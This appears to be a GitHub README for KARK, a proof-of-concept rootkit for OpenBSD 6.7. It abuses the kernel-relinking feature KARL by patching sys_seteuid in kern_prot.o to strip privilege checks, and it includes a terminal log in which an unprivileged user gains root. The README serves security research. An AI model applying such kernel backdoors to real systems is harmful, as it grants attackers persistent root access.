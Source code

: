 # K.A.R.K

The __"..KARL Aware Rootkit.."__ for OpenBSD 6.7    

![](kark-logo.png)    

An experimental **proof of concept** rootkit for OpenBSD 6.7.    

## What is KARL?    

KARL is a feature that relinks the OpenBSD Kernel each time the system is restarted with the aim of giving a different layout each time which complicates some forms of exploitation.          

## How does it work? Really..      

You can think of KARL as simply a load of .o files in a directory somewhere on disk that are relinked by a script calling a makefile each time.    

## What is KARK?    

KARK is a tool that attempts to patch sys_seteuid code in the kern_prot.o file to remove safety checks and relinks the kernel so that when the system is restarted any call like seteuid(0) from an unprivileged user will succeed. KARK is a minimal example of an **experimental** rootkit-like program provided as a **proof of concept** for security research and demonstration.     

```    
$ ssh james@192.168.0.90
james@192.168.0.90's password: 
Last login: Mon Sep 28 22:29:53 2020 from 192.168.0.57
OpenBSD 6.7 (GENERIC) #6: Thu Sep  3 13:42:48 MDT 2020

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

obsdtst$ cd /tmp/
obsdtst$ gcc -Wall -o test test.c                                                                                                                                                                                 
obsdtst$ ./test                                                                                                                                                                                                   
 --> 0
obsdtst# id
uid=1000(james) euid=0(root) gid=1000(james) groups=1000(james), 0(wheel)
obsdtst# whoami
root
```
